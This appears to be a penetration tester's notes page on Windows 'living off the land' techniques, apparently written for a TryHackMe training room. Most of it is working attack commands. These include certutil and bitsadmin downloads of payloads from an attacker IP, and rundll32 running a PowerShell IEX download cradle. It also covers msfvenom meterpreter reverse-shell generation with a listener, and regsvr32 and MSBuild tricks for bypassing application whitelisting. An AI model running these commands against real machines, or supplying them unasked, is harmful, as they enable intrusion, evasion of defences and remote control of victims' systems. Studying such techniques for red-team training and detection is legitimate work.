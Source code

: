 # Windows Living Off The Land

## Sysinternals

Due to the inherent trust Sysinternals has within the Operating system its use does get monitored by Blue Teams. See the [[Sysinternals-Hub]] for connecting links to all the tools eventually.

## LOLBAS
*"The goal of the [LOLBAS](https://lolbas-project.github.io/)  project is to document every binary, script, and library that can be used for Living Off The Land techniques. The phrase "Living off the land" was coined by Christopher Campbell (@obscuresec) & Matt Graeber (@mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).* The Site [LOLBAS](https://lolbas-project.github.io/) has search functionality for ease of use.

#### Criteria

A LOLBin/Lib/Script must:

-   Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft.
-   Have extra "unexpected" functionality. It is not interesting to document intended use cases.
    -   Exceptions are application whitelisting bypasses
-   Have functionality that would be useful to an APT or red team

Interesting functionality can include:

-   Executing code
    -   Arbitrary code execution
    -   Pass-through execution of other programs (unsigned) or scripts (via a LOLBin)
-   Compiling code
-   File operations
    -   Downloading
    -   Upload
    -   Copy
-   Persistence
    -   Pass-through persistence utilizing existing LOLBin
    -   Persistence (e.g. hide data in ADS, execute at logon)
-   UAC bypass
-   Credential theft
-   Dumping process memory
-   Surveillance (e.g. keylogger, network trace)
-   Log evasion/modification
-   DLL side-loading/hijacking without being relocated elsewhere in the file system.

## File Operation

Certutil can download files and encode files. Certutil is a Windows built-in utility for handling certification service.
```powershell
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
certutil -decode Encoded_file payload.txt
```

Bitsadmin [BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer)  - This differs from [lolbas](https://lolbas-project.github.io/#) and has not been changed so I assume that that version all works - it complains about too many arguments on some systems 
```powershell
bitsadmin.exe /transfer <jobname> /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\<user>\Desktop\payload.exe

bitsadmin.exe /transfer NewUpdate /Download /priority High http://Attacker_IP/payload.exe c:\Users\<user>\Desktop\payload.exe
# LOLBAS version - for references and just incase legacy Windows
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

Use `findstr` insteading finding text and string patterns in files, find and download remote file from SMB shared folder 
```powershell
findstr /V dummystring \\MachineName\ShareFolder\test.exe > C:\Windows\Temp\test.exe
```


## File Execution

Windows has multiple system binaries that can execute others, MITRE [ATT&CK](https://attack.mitre.org/) called  framework, considers this technique as to be term as either Signed Binary Proxy Execution or Indirect Command Execution.

`explorer.exe` is the file manager and system component for Windows and can perform Indirect Command Execution.
```powershell
# Located
# C:\Windows\explorer.exe - Windows 32 bits version
# C:\Windows\SysWOW64\explorer.exe - Windows 64 bits version
explorer.exe /root,"C:\Windows\System32\cmd.exe"
```

Windows Management Instrumentation (`wmic.exe`) see [[WMI-Commands]] for more), perform [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution  
```powershell
wmic.exe process call create cmd
```

Rundll32 is a Microsoft built-in tool that loads and can run local [[Dynamic-Link-Libraries]], thus run arbitrary payloads and execute JavaScript and PowerShell scripts. This is [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution.
```powershell
# Embedded eval() function
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"cmd\");window.close()");
```

```powershell
# run javascript: executing embedded powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```


## Bypassing Application Whitelisting 
Application Whitelisting is a rule-based (approved X.exe only) Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Therefore [LOLBAS](https://lolbas-project.github.io/) are used to bypasses the whitelisting by being whitelisted.

[Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/) is used by Windows to register dlls it can be used to execute arbituary binaries and bypass Whitelisting. According to [https://redcanary.com/](https://redcanary.com/) this the third most popular [ATT&CK Technique](https://attack.mitre.org/techniques/T1218/010/) used to execute native code or scripts locally or remotely **in memory**.
```powershell
# C:\Windows\System32\regsvr32.exe
# C:\Windows\SysWOW64\regsvr32.exe

# DLL reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
# Host and File transfer/Infiltrate it
c:\Windows\System32\regsvr32.exe c:\Users\<user>\Downloads\live0fftheland.dll
# OR
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
# /s - silent mode
# /n - do not call DLL register server
# /u - use another server instead as /n used
# /u - run with unregistered method
```


In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019: Windows Subsystem for Linux ([WSL](https://docs.microsoft.com/en-us/windows/wsl/about)), and it exists in [two WSL versions](https://docs.microsoft.com/en-us/windows/wsl/compare-versions): WSL1 and WSL2. 
```powershell
bash.exe -c cmd.exe # "/path/to/payload!"
```

## No Powershell

[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) *"Run PowerShell command without invoking powershell.exe"* It relies on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. You can also execute raw shellcode using the same approach.

```bash
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=$IP LPORT=4443 -f psh-reflection > liv0ff.ps1
# Listener
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost $IP;set lport 4443;exploit"
# Python2.. to convert the payload to be compatible 
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

On target build the `.csproj` file and wait for the reverse shell!
```powershell
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\<user>\Desktop\liv0ff.csproj
```

## cmdl32 

File transfer: Download a file from the web address specified in the configuration file. The downloaded file will be in %TMP% under the name VPNXXXX.tmp where "X" denotes a random number or letter.  

```powershell
cmdl32 /vpn /lan %cd%\config
```


## MSBuild

Incoming at some point - read the LOLBins
[WWHF | A Master Class on Offensive MSBuild | Chris Truncer & Joe Leon | 1 Hour](https://www.youtube.com/watch?v=an8vf1shfmk&t=1653s)

https://lolbas-project.github.io/lolbas/Binaries/Msbuild/

## References
[LOLBAS](https://lolbas-project.github.io/)
[THM Room Living off the land](https://tryhackme.com/room/livingofftheland)
[BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer)
[WSL](https://docs.microsoft.com/en-us/windows/wsl/about)
[https://redcanary.com/](https://redcanary.com/) 
[ATT&CK](https://attack.mitre.org)